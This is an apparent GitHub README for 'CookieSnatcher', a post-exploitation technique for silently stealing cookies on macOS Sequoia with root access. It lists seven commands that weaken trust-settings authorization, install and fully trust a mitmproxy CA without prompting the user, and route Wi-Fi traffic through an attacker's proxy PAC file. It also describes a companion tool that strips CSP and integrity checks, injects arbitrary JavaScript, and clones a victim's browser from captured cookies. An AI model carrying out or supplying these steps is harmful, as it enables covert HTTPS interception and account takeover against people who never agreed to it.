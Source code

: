 # CookieSnatcher
This repository contains the technique presented at SOCON2025 for stealing cookies silently from MacOS Sequoia with only root privileges

## Description

The technique is composed of adding a certificate (mitmproxy custom CA) to the System keychain without any trust, which doesn't alert the user with any prompts. Next, we update com.apple.trust-settings.user authorizationDb with allow.
We create another Keychain and add the same certificate with full trust. When we go back to check the certificate in the System Keychain it should be fully trusted.

## Steps
1. sudo security authorizationdb write com.apple.trust-settings.user allow
2. sudo security add-certificates -k /Library/Keychains/System.keychain ca.crt
3. security add-trusted-cert -p ssl -p smime -p eap -p IPSec -p codeSign -p timestamping -k custom.keychain -p basic ca.crt
4. sudo security list-keychains -s custom.keychain ~/Library/Keychains/login.keychain
5. sudo networksetup -setautoproxyurl Wi-Fi https://yourdomain/proxy.pac
6. sudo networksetup -setautoproxystate Wi-Fi on 
7. mitmproxy --listen-host 0.0.0.0 --listen-port 8080 --set block_global=false

## CookieFeeder

This is another tool to help you disable all the protections from the intercepted traffic (CSP, Integrity, etc) and inject abitrary Javascript. You can use it in combination with [https://github.com/](https://github.com/MythicAgents/bowser). It also a chrome extension that allows you to clone the target's browser by simply embedding the captured cookies.
